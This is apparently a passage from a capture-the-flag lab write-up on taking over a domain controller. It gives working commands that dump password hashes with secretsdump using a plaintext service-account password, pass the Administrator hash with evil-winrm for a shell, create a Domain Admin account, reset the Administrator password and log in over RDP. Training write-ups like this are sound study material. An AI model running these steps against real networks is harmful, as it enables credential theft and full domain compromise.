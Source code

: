 
## With svcBackups
Perform the same technique and dump secrets from the CORPDC machine, we will use the `svcBackups` account.

## Dump hashes on the `Server1` machine

$ `proxychains -q /usr/bin/impacket-secretsdump corp.thereserve.loc/svcBackups:'q9nzssaFtGHdqUV3Qv6G'@10.200.113.102`

![[Dumping secrets from CORPDC-20240601064020744.webp]]

Administrator:500:aad3b435b51404eeaad3b435b51404ee:d3d4edcc015856e386074795aea86b3e:::

## Connect using `evil-winrm`

$ `proxychains4 /usr/bin/evil-winrm -u Administrator -H d3d4edcc015856e386074795aea86b3e -i 10.200.113.102`

![[Dumping secrets from CORPDC-20240602155726615.webp]]

You'll get a shell.
Check out the hostname.

Evil-WinRM PS C:\Users\Administrator\Documents> `hostname`

![[Dumping secrets from CORPDC-20240602160026969.webp]]

### Create a new user as an Administrator

Evil-WinRM* PS C:\Users\Administrator\Documents> `net user kairos K41r@s123 /add /domain`

Username: kairos
Password:  K41r@s123

### Enumerate the groups to find the group name for the Administrator user

Evil-WinRM* PS C:\Users\Administrator\Documents> `net group`

![[Dumping secrets from CORPDC-20240604135830320.webp]]

### Add the new user to this group to make him the `Domain Admin`.

Evil-WinRM* PS C:\Users\Administrator\Documents> `net group "Domain Admins" kairos /add /domain`

### Display user's information


The `net user` command is a Windows command-line utility that can be used to display or modify user account information. The `/domain` switch is used with `net user` to specify that the operation should be performed on a domain controller, allowing you to view or change user account information in a domain environment.

Evil-WinRM* PS C:\Users\Administrator\Documents> `net user kairos /domain`

![[Dumping secrets from CORPDC-20240604140856658.webp]]

## RDP to CORPDC

$ `proxychains4 -q xfreerdp /v:10.200.113.102 /u:kairos /p:K41r@s123` 

### Getting flag 7
[[Flag Submission Process]]


## Change the Administrator's password.
Even though you are a member of Domain Admins group, you can access the Administrator's directoroy.


Evil-WinRM* PS C:\Users\Administrator\Documents> `net user Administrator Hacker@123 /domain`

#### RDP to CORPDC with the Administrator's credentials

$ `proxychains4 -q xfreerdp /v:10.200.113.102 /u:Administrator /p:Hacker@123` 

### Getting flag 8

[[Flag Submission Process]]

